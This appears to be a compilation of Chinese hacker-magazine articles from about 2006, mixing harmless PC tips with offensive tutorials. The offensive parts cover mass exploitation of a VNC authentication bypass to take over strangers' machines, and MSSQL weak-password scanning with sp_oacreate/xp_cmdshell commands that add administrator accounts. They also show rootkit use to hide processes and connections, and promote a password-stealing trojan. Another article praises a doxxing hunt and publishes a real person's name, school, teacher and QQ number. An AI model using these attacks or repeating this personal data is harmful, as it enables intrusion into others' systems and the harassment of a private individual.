运行在“虚拟机”中的程序鱼龙混杂，可能包括各种非法程序。为避免其非法窃取您的重要文件，您可以打开桌面上的“My Secure Documents”文件夹，将重要文件（例如各种密码文件）放到该文件夹中。此外，BufferZone 和系统紧密集成，在资源管理器选中文件或文件夹，在其右键菜单上选择“BufferZone”→“Confidential: hide from BufferZone”项，文件或文件夹就隐藏起来了，运行在“安全缓冲区”中的程序就无法访问这些隐藏的文件了。如果点击“BufferZone”→“Forbidden: deny all access”项，则文件就处于禁止访问状态，任何程序（包括正常的程序）都无法访问该文件或文件夹。这样，就不怕恶意程序窥视您的重要文件了。

当需要暂时取消 BufferZone 对系统的保护，可以在系统托盘中的 IEBS 图标的右键菜单上点击“Disable protection”项即可。与之类似，点击“Unload”菜单项则完全退出 BufferZone。

有了 BufferZone 的保护，小菜们就可以放心大胆地在电脑上测试病毒、木马了。

（本文中所涉及到的 BufferZone 已收录到光盘中）

### 晕吧！浩方整蛊即时流氓软件

沉默（silent）

相信大家对浩方平台都很熟悉吧，但每次打开浩方平台时都会出现一个强制安装的对话框，烦都烦死了，一不小心按了确定就被“强奸”了。上次和网友聊天时，边聊天边打开浩方，不小心安装了里面的流氓软件，害得那次卡了半天，如图1。相信大家都有这样的经历吧，而我这次讲的就是解除浩方的强制安装软件……


关闭浩方时弹出来的那个网站，避免以后误安装这些流氓软件。首先打开浩方，出现如图1所示的提示。其实这些都是调用安装文件中的文件。如果是调用，那么肯定有启动的文件。本来以为删掉那些流氓软件的安装程序就可以解除强制安装流氓软件了，如图2。


可是事实证明我的想法是错的。虽然删了干净，但下次启动浩方时那些流氓软件还会出现在安装文件中，这怎么办呢？不过，有个文件引起了我的注意，如图3。


这些文件都是 dll，即动态链接库。虽然看不懂讲的是什么意思，但记得以前看过一些文章，模糊地记得一些程序都是调用动态程序启动的。如果把这些邪恶安装程序全部删了会怎么样？有了想法于是开始行动了，找到这些动态链接库全部干掉，辛苦啊。现在再打开看看，汗！又出现了；事实证明这步又失败了……

```ini
[readln]
Sequence=100005
[System]
Version=2
[WGSocket*.dll]
Sequence=100009
[dosocket.dll]
Sequence=100002
[CA3Socket2.dll]
Sequence=100013
[CASocket*.dll]
Sequence=100025
[CA3Socket.dll]
Sequence=100014
```

于是再次到安装文件中看看，狂晕，那些让我费劲删除的文件竟然一个不剩地“复活”了。不过庆幸的是动态链接库没有“复活”，于是把动态链接库还原。目标又回到 HFGame.ini 这个文件中，一气之下把里面的内容全部删了，然后保存。再次删除动态链接库和流氓软件安装程序，等我灰心丧气再次打开浩方时，又出现了该死的图1。

名字的 txt 文件，如图4。

```ini
[Configure]
Time=0
Files=6
Url0=http://pt.cga.com.cn/cns0206.exe
Text0=……
Url1=http://pt.cga.com.cn/assist0206.exe
Text1=……
Url2=http://pt.cga.com.cn/baigoo.exe
Text2=……
Url3=http://pt.cga.com.cn/bind_8468.exe
Text3=酷站导航，助您网上轻松冲浪
Url4=http://pt.cga.com.cn/yayeddnaotang.exe
Text4=……
Url5=http://pt.cga.com.cn/01018.exe
Text5=……
```


图4

这不是那些和图1有很大关联的内容吗？把里面的内容删了或改了吧……有多少个以数字为名字的 txt 文件就改多少。

## 实现网游上完美挂机

ELFzero

现在网游开始大范围免费了，外挂和插件也百花齐放，这为我们提供很大的方便……我就以“石器时代”这个老游戏为例来说吧，它的脱机外挂界面如图1。

### 一、隐藏图标

设置好游戏外挂后，就把游戏外挂最小化了，但是还没有完。你难道没看见系统栏里面有个小小的图标吗（图2）？


图2


图1


图3

## 傻瓜黑客

我们只需要利用一个小小的系统设定就可以把它隐藏起来。在任务栏和“开始”菜单属性里我们可以设定隐藏不活动的图标，把外挂工具的图标给设定为总是隐藏就可以了，如图3。这样的话，看不见了吧（图4）。


### 二、隐藏窗口

有的挂机程序无法自己从桌面上消失，这时可以借用一个名叫“不慌不忙”的软件来帮我们的忙。软件很小，只有 70K，但是却能够把桌面上除了图标以外所有的东西隐藏起来，软件界面如图5。


程序默认同时按下鼠标左右键后隐藏所有窗口，“设置”选项中可以更改这个快捷键。“呼出程序”是调出隐藏的“不慌不忙”软件；勾选“不使用鼠标左右键”后在“隐藏触发”定义隐藏窗口的快捷键（图6）。“辅助功能”里可以隐藏桌面和任务栏，关闭声音和程序。右边的窗口是选择隐藏时保留的窗口，建议把除外挂窗口以外都选上。点击“系统菜单”的“隐藏”把“不慌不忙”隐藏后按下隐藏窗口快捷键，我们的外挂窗口是不是不见了。


### 三、隐藏进程

这样还不够完美，任务管理器里面还有它的进程，如果被网管发现了，那不是就完了吗？没有关系，该请出我们的法宝了——AFX RootKit，这个可是隐藏进程的好工具啊，它在 Linux 上可是很出名的。现在主要是用它来隐藏自己外挂的进程和其他所有痕迹。它的界面十分干净，只有几个必要的按钮，如图7。


- **1. Processes 隐藏进程**：选中需要隐藏的进程，添加后该进程名会被处理，达到隐藏目的。  
- **2. Files 隐藏文件**：如果还要把外挂文件藏起来，勾选 Files 后可以隐藏文件名，使普通进程名或文件名不易被发现。  
- **3. Registry 隐藏注册表项**：在注册表里做一些名称处理，可以在注册表层面隐藏相关痕迹。  
- **4. Protocol 隐藏通讯连接**：可隐藏外连端口类型（如 TCP/UDP），使如 `NETSTAT -AN` 这类查看命令难以发现对应端口。  

好了，所有工作就这样结束了。我们可以在一边喝着咖啡一边安心做其他的事情了。（文中所涉及到的工具“不慌不忙”和 AFX WINDOWS RootKit 2003 已收录到光盘中）

### 网络天下之 VNC 的疯狂


提起大名鼎鼎的 VNC，恐怕没有多少人不知道吧，这是一款和 dameware、radmin 类似的远程控制软件，应用非常广泛：它不仅可以应用于 Windows 系统，也可以应用于 UNIX/Linux 系统。不过，就在几天前，网上惊曝了 VNC 服务端存在的远程认证绕过漏洞。说得明白点，就是我们可以绕过 VNC 的口令而直接登录服务端。

首先我们来看看漏洞扫描工具 vnc_bypauth 的使用格式，如图1。-p 表示的是端口，-i 表示的是目标的 IP 地址范围，VNC 默认使用的是 5900 端口。具体的使用就是 `G:\test\vnc\vnc_bypauth -i 61.XXX.XXX.XXX-61.XXX.XXX.XXX -p 5900 -vnc`，如果检测到有漏洞的 VNC 的话，在 FOUND 列会列出检测到的数量，如图2。

```text
G:\test\vnc\vnc_bypauth -i 61.XXX.XXX.XXX-61.XXX.XXX.XXX -p 5900 -vnc
```


检测完毕后，会在 `vnc_bypauth` 的当前目录下生成一个名为 `vnc_bypauth.txt` 的检测结果文件。我们打开这个文件，提示“vnc4:VULNERABLE”的就是存在漏洞的服务器，而提示“vnc4:nothing received”则是因为网络或其他原因未判断出来的，有可能存在漏洞，也有可能没有，如图3。

接下来，我们直接双击运行编译好的 VNC 连接程序 `05162006-BL4CK-vncviewer-authbypass`，如图4，在 Server 栏中输入刚才扫描到的有漏洞的 IP 地址，点击 OK 就可以了。成功的话，我们就可以直接登录对方的操作界面了。

就是这么简单，我们就得到了一台肉鸡，比当年 Win2000 漏洞的利用都还简单。

最后提醒一点，当我们使用客户端成功登录对方主机的时候，有时会发现是一个登录的界面（就是需要输入口令的）。可能有的菜鸟会有疑惑：既然我们利用的这个漏洞是可以绕过口令验证的，那么为什么还会出现 Windows 的登录界面呢？实际上这个漏洞指的是绕过 VNC 服务端的口令验证，而直接登录到对方的操作系统上；但倘若此时对方的系统正在运行着屏保保护程序或是处于注销状态，这种情况下我们最好另换目标，猜测口令可是很困难的哟。不过据我测试，可以直接登录进系统的真的很多，一晚上一二十个肉鸡是不成问题的！

最后，别忘了，还可以用这个漏洞来找 UNIX/Linux 肉鸡，改回来骂发了吧！

（文中涉及到的工具 `vnc_bypauth`、`05162006-BL4CK-vncviewer-authbypass` 光盘中已收录）

### “铜须事件”

相信 WOW（魔兽）玩家对“铜须”事件都不陌生。帖子一出，MOP 上出现上万个声讨帖。二区麦维影歌服务器立即出现了大批 L 级的小号联盟，组建了上百人的工会“守望慰问团”。无数的玩家进入魔兽二区麦维影歌服务器谴责该事件主角守望者工会的会长——“铜须”，并有刷屏现象，导致服务器负载迅速上升，服务器内无法打怪、无法交易、无法谈话，完全不能正常游戏。

“铜须”事件被称为 2006 年网络最轰动事件。这里不作评论事件的本身和经过，Google 和 Baidu 搜索一下“铜须”事件，满屏皆是相关的详细报道。我们只关心技术方面的问题，即看看高人是如何利用 Google Hack 技术，充分利用点滴的真实信息，将网上的一个虚拟 ID“铜须”的身份背景、成长经历，甚至是高中照片一查出来公布于天下，整个过程堪称 Google Hack 的经典例程。

匿名

首先便是真实姓名的问题。网上流传的“铜须”的真名是郑新或郑昱，那么哪一个才是真的呢？“铜须”的自我介绍里面有这么一段话：“本人对计算机网页设计有所研究，曾经获得河北省计算机主页设计大赛第1名。”再加上已知为廊坊人，因此在 Google 或百度中输入“郑昱 廊坊 网页”，搜索到“获奖名单”。打开便可看见“河北省2001年中小学生电脑制作活动获奖名单”，仔细一看，高中组第一名赫然写着“郑昱”两个大字！

好了，水落石出了（图1）。

这个过程是不是让大家联想到了尼古拉斯·凯奇《国家宝藏》中的一段呢？在只获得了几个字母的情况下，在 Yahoo（看起来 Google 没有赞助啊）上一搜，与上得到了“解放郷”的最佳匹配！这就是搜索引擎强大的功能，可点击简要信息获得完整的数据以及详细的前因后果。在获奖名单中，我们还可以看到郑昱的高中学校、指导老师等信息，可惜主页作品已经删除了，不然还可以看看他当时做的东西。

好了，有了真名后进一步查找下去，进入 5460，查找郑昱这个人。果然看到他了，廊坊市第二中学，7班（图2）。

那么现在郑昱就读的大学是燕京大学吗？在燕山大学的学籍查询网中输入郑昱，找不到这个人，只有一位同名的来自河北省迁安市，则显然不是铜须。那么，究竟错在哪里呢？为什么燕山大学没有这个人呢？通过简单的判断分析，可以推断铜须在读的应该是燕山大学的继续教育学院，就是成教院，因此没有纳入学籍管理，在学籍管理中找不到这个人。至此，整个轮廓出来了：郑昱，廊坊市第二中学，7班，现读于燕山大学继续教育学院，今年毕业，老师是李静双。

初战告捷，利用搜索引擎轻松核实了真实信息，但还没有完。俗话说，“百闻不如一见”，如果有一张切切实实的照片，能见到主人公的庐山真面目效果就好了。

好，继续。在搜索引擎上输入“郑新”“郑昱”“铜须”“Zxxs”“幽月儿”“廊坊”这样的关键词搜索，却一无所得。明显“郑新”和“郑昱”是真实姓名，能找到相关资料（特别是照片）的几率很小；“铜须”这个名字肯定是 WOW 之后才有的名字；“Zxxs”得到的结果基本没用。

至此就要换个思路，在浩瀚的网络中寻找蛛丝马迹了。在铜须玩 WOW 之前最常用的 ID 是什么呢？这个才是我们需要找的关键。已知铜须的 QQ 号码，打开 Q-zone 上的个人档案，在那里赫然写着昵称：稀帅。先尝试通过这个 ID 开刀，在搜索引擎中输入“稀帅 廊坊”后，发现在廊坊热线的 BBS 金色走廊出现了“稀帅”。进入金色走廊 BBS，注册后搜索用户列表，得到用户稀帅的基本资料如图3。

大家仔细看上面的出生年月、信箱地址、QQ 号码，以及自我介绍，不难看出这就是郑昱了。不过这里只是他 2002 年高考以前待的地方，连最后发的帖子“属于我的高三生活”也早就没有了，更别说找照片了。

继续换个思路。以前郑昱玩《天堂2》，而且还算是个资深玩家。那么关于《天堂2》，郑昱总得留下一些蛛丝马迹吧。在百度简单输入郑昱的 QQ 号码“21882301”，看得到什么结果。第一个结果就是“出售4F 酷欧纳 60 级战狂·玩家帐号交易·新浪网...”，很明显是个《天堂2》的帐号。《天堂2》果然是一个突破口。

接下来就是找到这个人的详细资料了。在 Google 中输入“稀帅 廊坊 天堂2”，在搜索结果的第一个“玩家社区·新浪游戏·新浪网”便是一个叫稀帅的《天堂2》玩家个人资料，激动啊，答案就要揭晓了（图4）！

此人：男，24岁，家住河北廊坊，《天堂2》的48区75级长老。打开这个人的作品集，第一个便是我们刚才找到的出售《天堂2》账号的信息，内容如出一辙，可以确定此人便是要寻找的目标（图5）。然后打开下面的“我的照片”链接，终于出现清晰的庐山真面目了（图6）！

到此，追踪过程完美谢幕。整个过程堪称 Google Hack 的经典，充分利用了搜索引擎和点滴的背景知识，再一次展现搜索引擎之强大、检索能力之高超！从网络上的唐猫事件的女主人公到铜须事件，都表现出互联网已经不是一个不知道你是猫还是狗的时代了！你的一举一动都会被浩大网民的雪亮眼睛所找到！

相信在看过本文后，大家对于 Google、Yahoo 等搜索引擎的作用会有一个更深的了解了吧。这些搜索引擎不仅可以帮助我们搜索到一些晦涩的信息，而对于黑客来讲，还可以搜索到载入数据库、最新的漏洞补丁、最新的进化程序、自己要攻击的特定网站或论坛等等。可以说，搜索引擎在给平民大众带来方便的同时，也成了黑客入侵的最有效工具之一！

### 全国终结 SA 口令

我是菜鸟，菜鸟入侵自有菜鸟的方法。利用 SA 弱口令来找肉鸡就是我常用的一种方法。为了更快、更准确地找到肉鸡，我通常会使用许多工具：s.exe、x-scan、L-ScanPort2.0、sqltools 和 sql 查询分析器等。我的思路如下：

- 1. 使用 s.exe 大面积扫描开放 1433 端口的主机。命令格式为 `s tcp 起始IP 中止IP 512 /save`，扫描完成后打开目录下 `Result.txt` 文件，利用记事本的替换功能把“1433 Open”去掉，只留 IP（图1、图2）。
- 2. 使用 L-ScanPort2.0 过滤其中开放 3389 的电脑，然后导出 IP 地址（图3）。
- 3. 使用 x-scan 扫描 SA 弱口令。
- 4. 使用 sqltools 进行连接、提权加帐号，3389 登录……

前面3个步骤网上已经有较多教程，我就不再多说。相信前边的三个步骤许多菜鸟都摸透了，但当我们使用 sqltools 连接上之后，有时会发现不能执行命令。一般执行命令时会遇上下面几种情况，使你辛苦扫到的 SA 弱口令失效。例如返回1：未能找到存储过程 `master..xpcmdshell`；返回2：无法装载 DLL `xpsql70.dll` 或该 DLL 所引用的某一 DLL，原因126（找不到指定模块）；返回3：拒绝了对对象 `xp_cmdshell`（数据库 `master`，所有者 `dbo`）的 EXECUTE 权限。

```sql
declare @shell int exec sp_oacreate 'wscript.shell', ...
```

@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net user 123 456 /add'，这个命令就是创建一个用户名为 123、密码为 456 的用户，输入后按 F5，如果看到回显有个表格样的东西，就表示成功了。如果回显“命令成功完成”，反而是没有成功，千万不要上当哦。

下面提升权限，输入命令：declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net localgroup administrators 123 /add'，把用户 123 提升为管理员，按 F5 执行命令，回显和刚才一样。这样我们就是提升完权限了。为了方便大家学习，我把一些常见的回显及解决办法总结了一下。

- 1. 未能找到存储过程 `master..xpcmdshell`
  - 恢复方法：`sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'` 等。
- 2. 无法装载 DLL `xpsql70.dll` 或该 DLL 所引用的某一 DLL，原因126（找不到指定模块）。
  - 恢复方法：先 `sp_dropextendedproc 'xp_cmdshell'`，再 `sp_addextendedproc 'xp_cmdshell','xpsql70.dll'`。
- 3. 无法在库 `xpweb70.dll` 中找到函数 `xp_cmdshell`，原因127（找不到指定程序）。
  - 恢复方法：先 `exec sp_dropextendedproc 'xp_cmdshell'`，再 `exec sp_addextendedproc 'xp_cmdshell','xpweb70.dll'`。
- 4. 如果以上方法均不可恢复，尝试用直接添加账户的方法。

```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net user 用户 密码 /add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net localgroup administrators 用户 /add'

-- xp 或 2003 server
... c:\windows\system32\cmd.exe /c net user 用户 密码 /add
... c:\windows\system32\cmd.exe /c net localgroup administrators 用户 /add
```

以上就是一些关于 SA 弱口令的解决办法……下面我再介绍给大家一款工具——PST-SQLTools 1.1 Beta2（图4）。

注意此 sqltools 非彼 sqltools。这个工具是幻影旅团出品的，除了和 sqltools 有一样的功能外，它还集成了 xp_cmdshell 的恢复功能。运行程序后在对应地方填上 IP 地址、用户名和密码，按 connection 连接，连成后 Exec CMD 和 Upload 就可以用了。

选择好你需要恢复的那一项和路径，按 Resume 就可以了。要注意路径不要选择错了。Upload 是上传文件的，按 browse 选择好你要上传到远程主机的本地文件，在 DestFileName 里要把文件在远程主机里保存的路径及文件后缀名写全，不然会上传不成功的……文章有不足的地方，欢迎大家一起来论坛交流讨论。

> （本文中所涉及到的 s 扫描器、L-ScanPort2.0、sqltools 和 sql 查询分析器已收录到光盘中）

**问：** Mysql 密码被黑客更改了，怎么恢复？

**答：** 如果 MySQL 正在运行，先关闭后以跳过权限表方式启动（如 `safe_mysqld --skip-grant-tables &`），进入 MySQL 后更新 `user` 表密码并 `flush privileges`，最后重启服务。

```sql
use mysql;
update user set password=password('newpass') where user='root';
flush privileges;
```

**问：** 我在对一个文件夹进行权限设置的时候，发现“完全控制、修改”等允许项是灰色不可选，为什么？

**答：** 原因是 NTFS 权限继承。到“高级”设置中取消/调整“从父项继承权限”等选项后，可恢复“允许”项的可编辑状态。

## 我复制不了，网页资源

&& 我是孟星魂

网上的资源就是丰富，看见好的图片或文字总想着来个复制保存。不过现在很多网页都限制使用鼠标右键，主要是防止直接复制网页的内容，比如文字和图片信息。另外就是防止使用“另存为”，保护自己的下载地址不被盗链。网上流传的主要破解方法是：先点击左键，按住不放，再点击右键，接着放开左键，最后放开右键。这样就会出现正常的右键快捷菜单。还有另外的办法是使用下载工具，首先打开网际快车或其他下载器，并且显示下载的浮动窗口，把鼠标移到图片上，按住左键不放，拖到浮动窗口上，然后松开鼠标右键。网际快车会自动添加一个下载任务，确定后就可以下载图片了。

不过各位朋友会发现，这些方法不适用所有的网站。比如把 body 框架改为 `<body oncontextmenu=self.event.returnValue=false>`，定义 oncontextmenu 使得右键的值为 false，这样不管用什么办法都不管用了。现在很多网页干脆使用 `<body oncontextmenu=self.event.returnValue=false onselectstart="return false">`，把鼠标的左右键全屏蔽，这就是用左键没办法选中文字或图片的原因。还有不少网页虽然能用右键直接复制文字，可是复制出来的文字中有很多乱码，比如商业论坛，如图1！小弟认为可以用 IE 上的“文件”-“另存为”把网页保存到本地。如果网页中有限制的话，可以用记事本打开网页直接去掉相应代码，因为一般网页的源代码上都有详细注释，做过网页的基本上能够看懂。最常用的屏蔽右键的脚本代码是（图2）：

```javascript
<script language="javascript">
function click(){
  if (event.button==2){
    alert('右键已屏蔽');
  }
}
document.onmousedown=click;
</script>
```

上面的是比较有名的未来软件园的网友上传图片网页，禁止右键，不过只是用简单的脚本限制。想这样就难倒我们，做梦去吧。其实图片在保存下来的网页同名 `.files` 文件夹中。想要复制网页中的文字只能去掉右键限制。如果用的是 Windows XP SP2 更简单了，这个版本的系统可以自动屏蔽网页中的活动脚本，在本地打开网页就能使用右键了。其他系统可以在 IE 浏览器的“Internet 选项”-“安全”中进行相应设置。

“自定义级别”－“脚本”里设置，选择禁用活动脚本即可。如果刚入门的菜鸟朋友嫌麻烦的话，我推荐一款工具 html2txt，这个软件可以去掉网页中的 `<A><TD><TR>` 等控制标记，经过处理的网页文字信息可以保存为文本文档，图片信息直接显示链接地址。以 Cygwin 的官方说明网页为例，这个网页屏蔽左右键，不能直接复制说明文字。不过用 html2txt 处理后，可以把说明保存下来，不用再开网页看了，也方便自己修改和使用，如图3。

如果网页禁止本地保存，那也是有办法的；可以查看网页的源文件，用 IE 或其他浏览器在“查看”选项里选择“源文件”，或是在地址栏上输入 `View-Source:Http://目标网页`，直接把源代码保存为本地的文本文档。把代码修改后再还原成 html 后缀，只要能上网的机器，网页上的资源还是能正常使用的，如图4。

上边介绍的办法只是在网页代码没有加密时的情况。网上比较常见的是通过 JavaScript 的 `escape()` 函数定义字符来实现加密。经过加密的网页能够正常显示，不过 html2txt 往往识别不出来。常见加密代码虽然形式不同，但可逆逻辑相似。可以先把网页转成 ASP 文件（加入 `<% %>` 框架），再用 ASP 加密工具加密；或使用可转换为 ASP、PHP、JS、PERL 等格式的工具来处理，如图5。

最后介绍无敌破解右键限制的方法。网页资源通常会被缓存到本地 IE 的 Temporary Internet Files 目录中，清空目录后刷新目标网页，再查看缓存目录即可找到所需图片。网页文字可借助 Html2jpg 与 Aqua 等工具处理：前者可截取整个网页缩略图，后者常用于处理无法直接复制的页面内容。

## 傻瓜黑客


图6

还要再处理反汇编出来的网页，因为大部分网页在做电子书的时候就已经加了限制了。这个软件可以实现屏幕取词的功能，简单地说就是能把选定窗口中的文字信息全部保存下来，连图片中的文字说明都可以还原，功能确实强大啊。除此之外，还能查看星号密码，使用方法就不再说了，各位朋友自己看吧，如图7。

基本上就这些破解办法了，估计这些已经够用了。就算是以后又有了新的屏蔽办法，用 Aqua 一样可以搞定。本文没有什么技术含量，主要是写给菜鸟朋友看的，希望对大家有所帮助。

> （本文中所涉及到的 html2txt、加密网页、htm2jpg 和 Aqua 网络文字捕捉等工具代码已收录到光盘中）

问：在 Windows\Temporary Internet Files\Content.IE5\index.dat 中，index.dat 有 13008K，删除失败（表现为不支持存盘或没权限之类）……

答：这个文件本身就是这样的，而且你进入 Windows 该文件就存在，当然删不掉。若你想删除，只会给你带来麻烦哦……Windows\Cookies 里也有类似文件，不过它只有几十 K。


图7

问：我在浏览器用右键“某个下载连接→使用网际快车下载”来下载，可是经常会弹出 FlashGet 的下载任务窗口，但发现该功能无反应，怎么办？

答：可以先打开 FlashGet 安装目录，检查 jccatch.htm、jccall.htm 及 jccatch.dll 文件是否存在；若不存在建议从其他机器中拷贝过来。也可通过“开始→运行→cmd”执行命令，切换到 FlashGet 安装目录后，分别执行 `Regsvr32 jccatch.dll` 和 `Regsvr32 jcebar.dll` 来重新注册这些 DLL 文件。

问：我家里有台服务器装了 Linux，我想从公司远程连接到家里进行操作，除了 Telnet，能不能用 root 直接登录？

答：为了安全性考虑，现在有些 Linux 默认不安装 Telnet，推荐使用 SSH。当然如果安全要求不高，也可以直接用 root 登录。可修改 `/etc/pam.d/login` 中相关认证行（如 `auth required lib/security/pam_security.so`）后保存退出，即可用 root 登录。

问：我在使用电脑时常会遇到很多个专用工具限制用户访问某些分区，如何突破？

答：如果公共电脑中各分区都被隐藏，就可以绕过这种限制重新访问。在弹出的“运行”窗口中输入磁盘路径（如 `D:`）或完整 URL 样式路径，通常可直接打开相应分区。

问：我的 XP 系统图片预览功能失效了，怎么恢复？

答：在 Windows XP 中如果图片预览控件注册信息丢失，就会无法正确预览。可在“开始→运行”中输入 `Regsvr32 /i shimgvw.dll`（或文中给出的 `Regsvr32 thunbvw.dll` 命令）重新注册相关组件。出现“DllRegisterServer succeeded”即注册成功，重启后即可恢复。

### 解决工作组环境下 XP 互访之疑惑

如今家庭用户安装操作系统还是喜欢 XP，主要原因有两个：一是功能简单、开启服务少、启动快；二是界面美观，适合家庭办公。但装有 XP 操作系统的机器在组建局域网的时候却出现了若干令人头疼的问题，在我的印象之中问题最多的莫过于 XP 操作系统之间互访问题。

俗话说，解铃还需系铃人，只有解了 XP 互访过程的原理才能解决我们的困惑。首先要明确一点：何为工作组。所谓工作组就是几台机器的地位是平等的，不是 CS（客户机/服务器）模式，也不是域环境模式。如此一来，在地址栏中输入 `\\对方IP地址` 或者 `\\对方NetBIOS名` 便需要输入用户名和密码才能访问，而在域环境下是不需要输入用户名和密码进行验证的，因为在域环境下用户名和密码都是保存在域控制器上的。当然了，如果工作组中的机器全是 2000 或者 2003 那倒好办了，而 XP 的网络环境却又不一样，其中安全因素便是一个很重要的方面。

网络环境：两台装有 XP 操作系统的机器，一台机器名为 Ale，IP 地址为 10.0.0.1。另一台机器名为 Bus，IP 地址为 10.0.0.2。在 Ale 中有两个用户：admin1 对应密码为 123，admin2 对应密码为 jsj；在 Bus 中也有两个用户：admin1 对应密码为 123，admin2 对应密码为 jsj。两台机器连在一台 HUB 或交换机上。

首先我们需要了解 Ale 要成功访问 Bus 的共享资源需要经过以下四道关卡，如果中途失败一步，那么访问将以失败告终。四道关卡如下：

- 协议和端口，组件和服务；
- 用户身份验证；
- 本地安全策略审核；
- 用户权限检查。

### 关卡一：何为协议和端口、组件和服务？

在图1中我们可以了解到“Microsoft 文件和打印共享”服务既可走两条大的路：一是 TCP/IP 协议路线，二是 NetBEUI 协议（一种简单的局域网协议）路线。如果要走 TCP/IP 协议路线则可能有两种方式，一是走传统的 NetBT 协议（NetBT 指 NetBIOS over TCP/IP），需要开放的端口是 UDP137、UDP138、TCP139；二是直接走 TCP445 端口。听起来比较抽象，说白了就是有两种访问 Bus 共享资源的方法：一是通过 139 端口，二是通过 445 端口。单是关闭其中某个端口不会影响资源的访问。我们来看下边的两个实验。


实验一：Bus 机器以 admin1 用户登录，设置关闭 TCP139 和 TCP445 端口，Ale 机也以 admin1 登录并在地址栏中输入 `\\10.0.0.2` 或 `\\Bus` 试图访问 Bus 机共享失败。为什么会失败呢？因为 139 端口和 445 端口都关闭了，这样一来 Bus 就不能提供共享服务了。

> **小知识1：** 对于 2000 和 XP 客户端来说，如果在允许 NBT 的情况下连接服务器时，客户端会同时尝试访问 139 和 445 端口。如果 445 端口有响应，那么就发送 RST 包给 139 端口断开连接，用 445 端口进行会话；当 445 端口无响应时，才使用 139 端口进行会话。若两个端口都没有响应，则会话失败。  
> **小知识2：** 关闭“Microsoft 网络的文件和打印机共享”组件或相关 Server 服务，会导致共享能力受限；某些安全策略（如 IPSec）也可能限制相关端口通信，从而影响互访。

实验二：Bus 机器以 admin1 用户登录，禁止 NetBT 协议。这样一来 Ale 想访问 Bus 的共享资源只能通过 `\\10.0.0.2` 而不能通过 `\\Bus` 来访问了。原因是禁止 NetBIOS 协议将会导致 UDP137、UDP138、TCP139 被关闭，关闭了端口 UDP137、UDP138 将不能将 NetBIOS 名字解析为 IP 地址，但此时仍可通过 TCP445 端口访问。


### 关卡二：何为用户身份验证？

我们需要了解两点：一是客户端总是优先用自己的登录账号进行验证。例如，Ale 用 admin1 登录，当 Ale 访问 Bus 的共享资源时，它会先尝试用用户名 admin1 和密码 123 到 Bus 上去验证。二是由 Bus 决定是否将 Ale 的用户身份映射为 GUEST。那么为何将 Ale 的用户身份映射为 GUEST 呢？具体要分为 Bus 启用了简单文件共享和 Bus 没有启用简单文件共享两种情况。


- 确认启用简单文件共享模式，打开“文件夹选项”→“查看”，确保勾选“使用简单文件共享”，如图3。  
- 如果服务器配置了简单文件共享，客户端会被映射为 GUEST 用户，并以 GUEST 用户的身份进入“安全策略审核（GUEST 账户启用）”。  
- 如果没有配置过简单文件共享，则会弹出图4的灰色用户名（GUEST）的身份验证对话框（通常密码输入无效，体现“安慰性质”）。

禁用简单文件共享用户身份验证步骤如下：

- Ale 以用户名 admin1、密码 123 到 Bus 验证；若 Bus 上存在同名同密账号，则以 admin1 身份进入下一关“安全策略审核”。  
- 若 Bus 上存在 admin1 但密码不匹配，或不存在 admin1，且 GUEST 被禁止，则弹出图5对话框要求输入正确凭据并再验证；若 GUEST 启用，则 Ale 直接以 GUEST 身份进入“安全策略审核”。

### 关卡三：何为本地安全策略审核？

在这里分两点进行讨论：

一是如果 Ale 以 GUEST 用户身份接受安全策略审核，则会分别经过如下两策略的考验。  
策略2：本地策略→用户权利指派→“拒绝从网络访问这台计算机”（如图6）；  
策略3：本地策略→用户权利指派→“从网络访问这台计算机”（如图6）。  
其中需要说明的是这两策略是有步骤性的，在图7中说明了其验证过程。


正在登录的账号 admin1，即便“从网络访问这台计算机”策略中包含此账号也是没有用的，因为拒绝的优先权大于允许的优先权。只有上述两个策略都满足的情况下才能进入下一关。

二是如果 Ale 以其他用户（非 GUEST）的身份接受安全策略审核，则会分别经过如下三策略。


策略1：本地策略→安全选项→“帐户：使用空白密码的本地帐户只允许进行控制台登录”；  
策略2：本地策略→用户权利指派→“拒绝从网络访问这台计算机”；  
策略3：本地策略→用户权利指派→“从网络访问这台计算机”。  
图8详细说明了门限制步骤，只要其中一步出问题就会导致访问失败，如果都能顺利通过则进入下一关卡：权限检查。

### 关卡四：何为权限检查？

对于 FAT32 来说只有一种情况，对于 NTFS 来说有两种情况。此处只讨论 NTFS。假设 Bus 有个共享名 123 的文件夹，在此 123 会出现“共享”和“安全”两选项；其中“共享”限制网络访问该资源权限，“安全”限制本地访问该资源权限。具体操作过程如图9。


图中可见，Ale 访问 Bus 的 123 文件夹时，Bus 先检查 Ale 的登录账号在“共享”选项中的用户/组是否存在（如图10）；不存在将导致访问失败。若存在，再检查该账号在“安全”选项中的用户/组是否存在（如图11）；不存在同样会失败，存在则可用适当权限访问共享资源。


到此为止整个验证过程结束。访问 XP 操作系统必须经过这些步骤，只要其中任何一步不过都将导致访问失败。较易出问题的是关卡三：本地安全策略审核。理解其验证原理后，可解决工作组环境下 XP 互访问题。

## 牧马记

### 菜鸟主马，隐身“尘土”

对于我们忠实的黑友而言，无论是国产木马还是国外木马，在我们这个 X 档案木马栏目中的确指导下，想必各位都变得很熟练吧。鸽子、黑洞、pcshare、彩虹等控机黑软，已经成为我们每天必用的管理肉鸡工具。但是今天我要给大家带来一款新型木马，它的客户端是用浏览器来直接进行控制的，服务端的配置也是由一个网页文件来完成的，它的名称就是——尘土服务器 2.1b。

先来给大家简单介绍下这款木马的特点吧：只有 17408 字节，除了只有 52 个字节是必需（引导）之外，其它代码可完全改动；注册表启动、一次性插入式控制软件、自由度高；可用 IE 作为客户端，支持多用户操作；可加壳、内存解密执行、删除部分引导代码；可记录密码并发送到指定 Email；可自动感染局域网、远程安装、控制进程/注册表/窗口/服务，执行 CMD 命令、发送上线通知等。

嘿嘿，跟往常我们玩木马一样，首先来看它的配置文件，不过这次有所不同，是在浏览器中打开，如图1。


图1

